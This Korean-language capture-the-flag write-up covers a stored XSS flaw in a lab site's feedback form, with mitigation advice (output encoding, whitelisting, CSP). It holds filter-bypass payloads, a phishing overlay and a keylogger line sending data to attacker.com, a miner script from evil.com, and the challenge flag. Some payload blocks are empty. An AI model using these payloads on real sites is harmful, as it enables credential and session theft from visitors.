


# 취약점 #6: Feedback 폼을 통한 Stored XSS (저장형 크로스 사이트 스크립팅)

## 🎯 취약점 유형
**Stored XSS - 지속형 크로스 사이트 스크립팅**
- **OWASP 분류**: A03:2021 - Injection
- **CWE 분류**: CWE-79 - 웹 페이지 생성 중 입력의 부적절한 무력화 (Cross-site Scripting)

---

## 📚 Stored XSS란?

> **XSS 기본 개념**은 [취약점 #5: Reflected XSS](../05_xss_media/Resources/explanation_korean.md)를 참고하세요.

### 이 취약점: Stored XSS (저장형)

```
공격자 → 게시판/댓글에 악성 코드 작성
       ↓
서버 → 데이터베이스에 저장
       ↓
모든 방문자 → 페이지 열람
       ↓
모든 방문자 → 악성 코드 자동 실행
```

### Reflected XSS와의 핵심 차이점

| 특징 | Reflected XSS (취약점 #5) | Stored XSS (이 취약점) |
|------|--------------------------|---------------------|
| 저장 여부 | ❌ URL에만 존재 | ✅ **서버 DB에 영구 저장** |
| 피해 범위 | 한 명 (URL 클릭자) | **모든 방문자** 💀 |
| 공격 방법 | 악성 URL 공유 | 게시판/댓글 작성 |
| 발동 조건 | URL 클릭 필요 | **페이지만 열면 자동 실행** |
| 지속성 | 일회성 | 영구적 (삭제 전까지) |
| 위험도 | 중간 | **높음 (가장 위험)** |

### 왜 Stored XSS가 더 위험한가?

**Reflected XSS**:
```
공격자 → 1명에게 악성 URL 전송
       ↓
피해자 1명만 감염
```

**Stored XSS**:
```
공격자 → 한 번만 작성
       ↓
서버에 저장
       ↓
방문자 A → 감염
방문자 B → 감염
방문자 C → 감염
...
수백 명 동시 피해! 💣
```

---

## 🔍 취약점 발견 과정

### 발견: 사용자 입력이 있는 Feedback 페이지
**URL**: `http://192.168.64.2/index.php?page=feedback`

사이트에 사용자가 이름과 메시지를 제출할 수 있는 피드백/방명록 페이지가 있습니다.



### 1단계: 폼 구조 분석

**HTML 폼**:
```html
<form method="post" name="guestform" onsubmit="return validate_form(this)">
    <input name="txtName" type="text" size="30" maxlength="10">
    <textarea name="mtxtMessage" cols="50" rows="3" maxlength="50"></textarea>
    <input type="submit" name="btnSign" value="Sign Guestbook">
</form>
```

**핵심 관찰**:
- **Name 필드**: `txtName`, 10자로 제한
- **Message 필드**: `mtxtMessage`, 50자로 제한
- **클라이언트 측 검증**: JavaScript로 빈 필드 검사
- **저장된 데이터**: 제출된 피드백이 페이지 하단에 표시됨

**이게 왜 문제일까?**
- 사용자 입력이 **서버에 저장**됨
- 저장된 데이터가 **다른 모든 방문자에게 표시**됨
- 적절한 **정제(sanitization) 없이** HTML에 삽입됨

### 2단계: 기본 XSS Payload 테스트

**테스트 1** - 간단한 script 태그:
```
Name: <script>alert("XSS")</script>
Message: test
```

**결과**: `<script>` 태그가 필터링/제거됨 ❌

**왜 차단되었나?**
- 서버가 `<script>` 태그를 감지하고 제거
- 하지만 이것만으로는 **불충분한 보안**

**테스트 2** - Image 태그의 onerror:
```
Name: 
Message: test
```

**결과**: XSS 실행됨! 하지만 flag는 없음 ❌

**왜 이 테스트를 두 번째로?**
- `<script>` 차단 확인 후, 공격자는 즉시 **다른 HTML 태그** 시도
- 이벤트 핸들러를 사용한 우회가 가장 흔한 블랙리스트 우회 방법
- 대소문자 변형은 현대 필터에서 거의 통하지 않음

**이게 왜 작동했나?**
- `<script>` 태그가 아니므로 필터 우회
- `onerror` 이벤트 핸들러로 JavaScript 실행
- **블랙리스트 방식의 한계 증명**

**테스트 3** - SVG 태그의 onload:
```
Name: <svg onload=alert(2)>
Message: test
```

**결과**: XSS 실행됨! 하지만 flag는 없음 ❌

**왜 여러 벡터를 테스트?**
- 여러 XSS 벡터가 사용 가능한지 확인
- 제대로 된 출력 인코딩이 아닌 **약한 블랙리스트 필터**임을 증명
- 공격 표면(attack surface)의 크기 파악

**테스트 4** - "script"라는 단어만:
```
Name: script
Message: test
```

**결과**: ✅ **FLAG 획득!**



**Flag**: `0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e`

### "script"가 flag를 트리거하는 이유

서버에 **키워드 탐지 시스템**이 있습니다:
- 사용자 입력에서 "script" 감지
- 이것을 XSS 시도로 인식
- 취약점을 발견한 것을 인정하여 flag 반환

이것은 다음을 가르치기 위한 **의도적으로 단순화된 챌린지**입니다:
1. 입력 검증의 개념
2. 블랙리스트 필터링이 불충분한 이유
3. 컨텍스트 인식 정제(sanitization)의 중요성

---

## 💥 공격 방법 (Flag 획득 이후)

### 방법 1: maxlength 제한 우회

**클라이언트 측 제한**은 다음 방법으로 우회 가능:

**옵션 A** - DevTools에서 HTML 수정:
```html
<!-- 이것을 -->
<input name="txtName" type="text" size="30" maxlength="10">

<!-- 이렇게 변경 -->
<input name="txtName" type="text" size="30" maxlength="500">
```

**방법**:
1. 브라우저에서 F12 (개발자 도구)
2. Elements/요소 탭
3. input 태그 찾기
4. maxlength 값 변경
5. 긴 payload 입력 가능!

**옵션 B** - curl/Burp Suite 사용:
```bash
curl -X POST "http://192.168.64.2/index.php?page=feedback" \
  -d "txtName=<매우 긴 XSS payload>&mtxtMessage=test"
```

**보안 교훈**: 클라이언트 측 검증은 **UX용일 뿐**, 보안이 아님!

### 방법 2: 필터를 우회하는 XSS Payload들

**Payload 1** - onerror가 있는 Image 태그:
```html

```
**작동 이유**: `<script>` 키워드 없지만 JavaScript 실행

**Payload 2** - onload가 있는 SVG:
```html
<svg/onload=alert('XSS')>
```
**작동 이유**: 간결한 SVG 문법, 이벤트 핸들러 사용

**Payload 3** - javascript: 프로토콜이 있는 Anchor 태그:
```html
<a href="jAvAsCriPt:alert('XSS')">클릭하세요</a>
```
**작동 이유**: 대소문자 혼합이 단순 필터 우회

**Payload 4** - Body 태그:
```html
<body onload=alert('XSS')>
```

**Payload 5** - Iframe:
```html
<iframe src="javascript:alert('XSS')">
```

**Payload 6** - Details 태그:
```html
<details open ontoggle=alert('XSS')>
```

### 방법 3: 고급 Payload들

**1. 쿠키 탈취**:
```html

```

**공격 시나리오**:
1. 공격자가 피드백 제출
2. 피해자가 피드백 페이지 방문
3. JavaScript가 피해자 브라우저에서 실행
4. 피해자의 쿠키가 공격자 서버로 전송
5. 공격자가 세션 토큰으로 피해자 계정 접근

**2. 피싱 오버레이**:
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
    <h2>세션 만료 - 다시 로그인하세요</h2>
    <form action="http://attacker.com/phish" method="POST">
        사용자명: <input name="user"><br>
        비밀번호: <input type="password" name="pass"><br>
        <button>로그인</button>
    </form>
</div>
```

**공격 시나리오**:
1. 합법적으로 보이는 로그인 폼 표시
2. 사용자가 자격 증명 입력
3. 데이터가 공격자 서버로 전송
4. 사용자는 피싱당한 것을 모름

**3. 키로거**:
```html
fetch('http://attacker.com/log?k='+e.key)">
```

**공격 시나리오**:
1. 모든 키 입력 캡처
2. 실시간으로 공격자에게 전송
3. 비밀번호, 신용카드 번호 등 수집

---

## 🔄 Stored XSS vs Reflected XSS

### 비교

| 측면 | Stored XSS (저장형) | Reflected XSS (반사형) |
|------|---------------------|----------------------|
| **저장** | 서버에 저장됨 | 저장 안 됨 |
| **지속성** | 제거할 때까지 영구적 | 임시적 |
| **피해자** | 페이지를 보는 모든 사용자 | 링크를 클릭한 피해자만 |
| **심각도** | 더 높음 (다수 영향) | 더 낮음 (표적 공격) |
| **예시** | 방명록, 댓글 | 검색 결과, 에러 메시지 |
| **사용자 상호작용** | 필요 없음 | 필요함 (링크 클릭) |

**이번 취약점** (Feedback 폼): **Stored XSS** ← 우리가 지금 다루는 것
**이전 취약점** (Media src 파라미터): **Reflected XSS**

### Stored XSS가 더 위험한 이유

1. **지속성**: 악의적인 스크립트가 서버에 남아있음
2. **사용자 상호작용 불필요**: 피해자가 페이지만 방문하면 됨
3. **다수 사용자 영향**: 피드백 페이지를 보는 모든 사람
4. **탐지 어려움**: 의심스러운 URL로 사용자에게 경고할 수 없음
5. **더 큰 영향**: 전체 사용자 기반을 손상시킬 수 있음

**실제 사례**:
- **MySpace Samy Worm** (2005): 100만 명 감염, 20시간 만에
- **TweetDeck XSS** (2014): 자동으로 확산되는 XSS
- **British Airways** (2018): 카드 skimmer XSS, 380,000명 영향

---

## 🚨 보안 문제점

### 1. 불충분한 입력 검증

**문제**: `<script>` 태그만 필터링되지만 많은 다른 XSS 벡터가 존재합니다.

**취약한 코드** (가상):
```php
$name = $_POST['txtName'];
$message = $_POST['mtxtMessage'];

// 순진한 필터링 - <script>만 제거
$name = str_ireplace('<script>', '', $name);
$name = str_ireplace('</script>', '', $name);

// 데이터베이스에 저장
$db->query("INSERT INTO feedback (name, message) VALUES ('$name', '$message')");

// 인코딩 없이 표시
echo "<td>Name : $name</td>";
```

**실패하는 이유**:
- ❌ `<script>` 태그만 차단
- ❌ HTML 엔티티 인코딩 안 함
- ❌ ``, `<svg>`, `<iframe>` 등 허용
- ❌ 이벤트 핸들러(`onerror`, `onload`) 처리 안 함
- ❌ `javascript:` 프로토콜 차단 안 함

**우회 예시**:
```html
<script>     → 차단됨
<ScRiPt>     → 우회 (대소문자는 차단됨)
  → 우회! ✅
<svg/onload=alert(1)>         → 우회! ✅
<a href="javascript:alert(1)"> → 우회! ✅
```

### 2. 클라이언트 측 검증만 존재

**문제**: `maxlength`와 `required` 체크가 JavaScript에만 있습니다.

**불충분한 이유**:
- DevTools로 우회 가능
- Curl/Burp Suite는 클라이언트 측 제한 무시
- **보안 원칙**: 클라이언트 입력을 절대 신뢰하지 말 것

**보안 vs UX**:
- **클라이언트 측 검증**: UX만을 위한 것 (빠른 피드백)
- **서버 측 검증**: 실제 보안을 위한 것 (필수!)

```
클라이언트 측 검증 = 문앞의 "출입금지" 표지판
서버 측 검증 = 실제 자물쇠와 경비원
```

### 3. 출력 인코딩 없음

**문제**: 사용자 입력이 인코딩 없이 HTML에 직접 렌더링됩니다.

**공격 흐름**:
```
사용자 입력: 
    ↓
데이터베이스:   (그대로 저장)
    ↓
HTML 출력: <td>Name : </td>
    ↓
브라우저: JavaScript 실행!
```

**올바른 인코딩**:
```
사용자 입력: 
    ↓
htmlspecialchars(): &lt;img src=x onerror=alert(1)&gt;
    ↓
브라우저: 텍스트로 표시, 실행 안 함
```

**HTML 엔티티 인코딩 예시**:
```
<  →  &lt;
>  →  &gt;
"  →  &quot;
'  →  &#039;
&  →  &amp;
```

### 4. 블랙리스트 대신 화이트리스트

**문제**: 안전한 문자만 허용하는 대신 특정 패턴을 차단하려고 시도합니다.

**블랙리스트 접근법** (나쁨):
```php
// 모든 위험한 패턴을 차단하려고 시도
$blocked = ['<script>', 'javascript:', 'onerror=', 'onload=', ...];
foreach ($blocked as $pattern) {
    $input = str_ireplace($pattern, '', $input);
}
```

**블랙리스트의 문제점**:
- ♾️ 무한한 XSS 변형 존재
- 🔤 대소문자 변형: `<ScRiPt>`, `jAvAsCrIpT:`
- 🔢 인코딩: `&#106;avascript:`, `%6A%61vascript:`
- 🆕 새로운 HTML5 벡터 계속 등장
- 🏃 항상 공격자를 쫓아가는 입장

**화이트리스트 접근법** (좋음):
```php
// 영숫자 + 특정 안전한 문자만 허용
if (!preg_match('/^[a-zA-Z0-9 .,!?-]{1,50}$/', $input)) {
    die("입력에 유효하지 않은 문자");
}
```

**화이트리스트의 장점**:
- ✅ 안전한 것만 명시적으로 허용
- ✅ 새로운 공격 벡터에 자동으로 방어
- ✅ 간단하고 유지보수 쉬움

### 5. Content Security Policy (CSP) 없음

**문제**: 스크립트 실행을 제한하는 CSP 헤더가 없습니다.

**누락된 헤더**:
```
Content-Security-Policy: default-src 'self'; script-src 'self'
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
```

**CSP가 하는 일**:
- 인라인 JavaScript 차단 (XSS 대부분 차단)
- 외부 악의적인 스크립트 로딩 차단
- 신뢰할 수 있는 소스만 허용

---

## 🌍 실제 공격 시나리오

### 시나리오 1: 대규모 세션 하이재킹

**공격자가 제출**:
```html

```

**일어나는 일**:
1. XSS payload가 데이터베이스에 저장됨
2. 모든 방문자가 피드백 페이지 로드
3. 그들의 브라우저에서 JavaScript 실행
4. 쿠키와 세션 데이터가 공격자에게 전송
5. 공격자가 피해자를 가장할 수 있음

**영향**: 모든 사용자의 완전한 계정 탈취

**실제 사례**: British Airways 2018 - 380,000명의 고객 데이터 유출

### 시나리오 2: 웹사이트 훼손(Defacement)

**공격자가 제출**:
```html
<style>body{display:none}</style>
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:black;color:red;display:flex;align-items:center;justify-content:center;font-size:50px;">
    HACKED BY ATTACKER
</div>
```

**결과**: 모든 방문자에게 웹사이트가 완전히 훼손되어 보임

**비즈니스 영향**:
- 💔 브랜드 신뢰 손상
- 📉 주가 하락 (상장 기업의 경우)
- 💸 고객 이탈
- 📰 부정적 언론 보도

### 시나리오 3: 암호화폐 채굴

**공격자가 제출**:
```html
<script src="https://evil.com/coinhive-miner.js"></script>

```

**결과**: 방문자의 CPU가 동의 없이 암호화폐 채굴에 사용됨

**영향**:
- 💻 느린 컴퓨터
- 🔋 빠른 배터리 소모
- 🌡️ 과열
- ⚡ 높은 전기 요금

---

## 🛡️ 완화 방법

### 1. 올바른 출력 인코딩 구현

**PHP 솔루션**:
```php
// ❌ 나쁨
echo "<td>Name : " . $name . "</td>";

// ✅ 좋음
echo "<td>Name : " . htmlspecialchars($name, ENT_QUOTES, 'UTF-8') . "</td>";
```

**htmlspecialchars가 하는 일**:
```
입력:  
출력:  &lt;img src=x onerror=alert(1)&gt;
결과:  텍스트로 표시, 실행 안 됨
```

**JavaScript (Node.js)**:
```javascript
const escapeHtml = require('escape-html');
res.send(`<td>Name : ${escapeHtml(name)}</td>`);
```

**Python (Flask/Jinja2)**:
```python
# Jinja2는 기본적으로 자동 이스케이프
return render_template('feedback.html', name=name)

# 템플릿에서:
<td>Name : {{ name }}</td>  {# 안전! #}
```

### 2. 서버 측 입력 검증

**화이트리스트 접근법**:
```php
function validateName($name) {
    // 문자, 공백, 하이픈만 허용
    if (!preg_match('/^[a-zA-Z\s-]{1,50}$/', $name)) {
        return false;
    }
    return true;
}

function validateMessage($message) {
    // 영숫자, 공백, 기본 구두점만
    if (!preg_match('/^[a-zA-Z0-9\s.,!?-]{1,200}$/', $message)) {
        return false;
    }
    return true;
}

$name = $_POST['txtName'];
$message = $_POST['mtxtMessage'];

if (!validateName($name) || !validateMessage($message)) {
    http_response_code(400);
    die("유효하지 않은 입력 형식");
}

// 여전히 출력 인코딩!
echo htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
```

**심층 방어 원칙**:
1. ✅ 입력 검증 (화이트리스트)
2. ✅ 출력 인코딩 (항상!)
3. ✅ CSP 헤더
4. ✅ 보안 프레임워크 사용

### 3. Content Security Policy (CSP)

**HTTP 헤더**:
```apache
# Apache 구성
Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'; style-src 'self' 'unsafe-inline'"
Header set X-XSS-Protection "1; mode=block"
Header set X-Content-Type-Options "nosniff"
Header set X-Frame-Options "SAMEORIGIN"
```

**CSP가 하는 일**:
- `default-src 'self'`: 같은 출처에서만 리소스 로드
- `script-src 'self'`: 같은 출처에서만 스크립트 실행
- 인라인 JavaScript 차단 (XSS 포함)
- 외부 악의적인 스크립트 로드 방지

**Nginx 구성**:
```nginx
add_header Content-Security-Policy "default-src 'self'; script-src 'self'";
add_header X-XSS-Protection "1; mode=block";
add_header X-Content-Type-Options "nosniff";
```

### 4. 파라미터화된 쿼리 사용

**SQL 인젝션 방지** (관련 취약점):
```php
// ❌ 나쁨 (SQL 인젝션 + XSS)
$query = "INSERT INTO feedback VALUES ('" . $_POST['txtName'] . "')";

// ✅ 좋음 (SQL 인젝션 방지)
$stmt = $pdo->prepare("INSERT INTO feedback (name, message) VALUES (?, ?)");
$stmt->execute([
    htmlspecialchars($name, ENT_QUOTES, 'UTF-8'),
    htmlspecialchars($message, ENT_QUOTES, 'UTF-8')
]);
```

### 5. 속도 제한 구현

**스팸과 자동화된 공격 방지**:
```php
// IP당 제출 추적
$ip = $_SERVER['REMOTE_ADDR'];
$stmt = $pdo->prepare("
    SELECT COUNT(*) FROM feedback
    WHERE ip = ? AND created_at > NOW() - INTERVAL 1 HOUR
");
$stmt->execute([$ip]);
$recent_count = $stmt->fetchColumn();

if ($recent_count > 5) {
    http_response_code(429);
    die("너무 많은 제출. 나중에 다시 시도하세요.");
}
```

### 6. 최신 프레임워크 사용

**많은 프레임워크가 기본적으로 XSS로부터 보호합니다**:

**React**:
```jsx
// React는 자동으로 텍스트 콘텐츠 이스케이프
function Feedback({userName}) {
    return <div>Name: {userName}</div>;  // 기본적으로 안전
}
```

**Vue**:
```vue
<!-- Vue는 기본적으로 이스케이프 -->
<template>
    <div>Name: {{ userName }}</div>  <!-- 안전 -->
</template>
```

**Laravel (Blade)**:
```blade
<!-- Blade는 기본적으로 이스케이프 -->
<div>Name: {{ $userName }}</div>  {{-- 안전 --}}

<!-- 이스케이프 안 함 (위험!) -->
<div>Name: {!! $userName !!}</div>  {{-- 피하세요! --}}
```

### 7. Nonce로 Content Security Policy 구현

**랜덤 nonce 생성**:
```php
$nonce = base64_encode(random_bytes(16));
header("Content-Security-Policy: script-src 'nonce-$nonce'");
```

**HTML에서 사용**:
```html
<!-- 일치하는 nonce가 있는 스크립트만 실행 -->
<script nonce="<?php echo $nonce; ?>">
    // 이 스크립트는 실행됨
    console.log("허용됨");
</script>

<script>
    // 이 스크립트는 CSP에 의해 차단됨
    alert("차단됨");
</script>

<!-- XSS 시도 -->
  <!-- CSP에 의해 차단됨! -->
```

---

## 📊 영향 평가

### CVSS 3.1 점수: 8.1 (높음)

**공격 벡터**: 네트워크 (AV:N)
**공격 복잡성**: 낮음 (AC:L)
**필요한 권한**: 없음 (PR:N)
**사용자 상호작용**: 없음 (UI:N) - 피해자가 페이지만 방문하면 됨
**범위**: 변경됨 (S:C) - 모든 사용자에게 영향
**기밀성**: 높음 (C:H) - 쿠키, 세션 토큰 도용
**무결성**: 높음 (I:H) - 페이지 콘텐츠 수정
**가용성**: 낮음 (A:L) - 서비스 방해 가능

### Reflected XSS보다 높은 점수인 이유?

**Stored XSS가 더 심각한 이유**:
- ❌ 사용자 상호작용 불필요 (vs. 악의적인 링크 클릭)
- 👥 모든 사용자에게 영향 (vs. 단일 피해자)
- ♾️ 지속적 (vs. 임시적)
- 🕵️ 탐지 어려움 (의심스러운 URL 없음)
- 🌍 대규모 영향 (전체 사용자 기반 손상 가능)

### 실제 영향

**성공적인 Stored XSS로 가능한 것**:
- 🔓 대규모 세션 하이재킹
- 👤 대규모 계정 탈취
- 💀 웹사이트 훼손
- 🦠 악성코드 배포
- ⛏️ 암호화폐 채굴
- 📤 데이터 유출
- 🎣 피싱 캠페인
- 💥 완전한 사이트 손상

**통계**:
- 웹 애플리케이션의 **30%**에서 Stored XSS 발견 (OWASP)
- 평균 발견 시간: 280일
- 평균 침해 비용: $4.2M (IBM, 2023)
- 금융 서비스: $5.9M 평균 비용

**실제 침해 사례**:
- **MySpace (2005)**: Samy Worm - 100만 명 감염
- **TweetDeck (2014)**: 자가 복제 XSS
- **British Airways (2018)**: 카드 스키머 - 380,000명 영향, £183M 벌금
- **eBay (2014)**: Stored XSS로 피싱 공격

---

## 📚 참고자료

- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [Stored vs Reflected XSS](https://portswigger.net/web-security/cross-site-scripting)
- [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)

## 🛠️ 사용된 도구

- **Browser DevTools**: 폼 속성 수정
- **curl**: 커맨드라인 폼 제출
- **Burp Suite**: (선택사항) 요청 가로채기 및 수정

---
**Flag**: `0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e`
